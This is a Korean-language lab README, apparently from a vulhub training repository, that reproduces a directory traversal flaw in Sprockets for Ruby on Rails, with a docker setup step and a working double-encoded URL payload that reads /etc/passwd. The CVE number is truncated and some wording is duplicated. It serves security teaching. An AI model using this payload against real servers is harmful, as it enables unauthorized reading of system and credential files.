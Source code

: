 # Ruby on rails 디렉토러 접근 취약점 (CVE-2018-)

Ruby On Rails는 개발 환경에서 정적 파일 서버로 Sprockets를 사용하는 루비 웹 개발 프레임워크로 널리 알려져 있으며,
정적 리소스 파일을 컴파일하여 배포하는 루비 라이브러리인 Sprockets는 정적 리소스 파일을 컴파일하고 배포하는 루비 라이브러리다.

Sprockets 3.7.1 이하 버전에는 2차 디코딩으로 인한 디렉토리 접근 취약성이 있다. 공격자는 %252e%252e/를 사용하여 루트 디렉터리에 액세스하고 대상 서버의 모든 파일을 읽거나 실행할 수 있다.

참고 링크 : 
- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://seclists.org/oss-sec/2018/q2/210
- https://xz.aliyun.com/t/2542

## 환성 설정
다음과 같은 명령어를 입력 : 
```docker compose up -d```


## 실행
/etc/passwd 파일이 허용된 디렉토리에 없기 때문에 http://your-ip:3000/assets/file:%2f%2f/etc/passwd를 직접 방문하여 오류를 발생시킨다.
![1](https://github.com/le-e-e/whitehat-school-vulhub/assets/51049963/7ecc364c-20a7-445c-820b-27cf7e788e78)
오류 페이지별로 허용된 디렉토리 목록을 가져올 수 있다. /usr/src/blog/app/assets/images와 같은 디렉토리 중 하나를 선택한 후 %252e%252e/를 사용하여 상위 디렉토리로 이동한 후 /etc/passwd 파일을 열람한다.
```http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd```
![2](https://github.com/le-e-e/whitehat-school-vulhub/assets/51049963/055cee2b-794e-4d71-a6c8-17b7555eaeff)
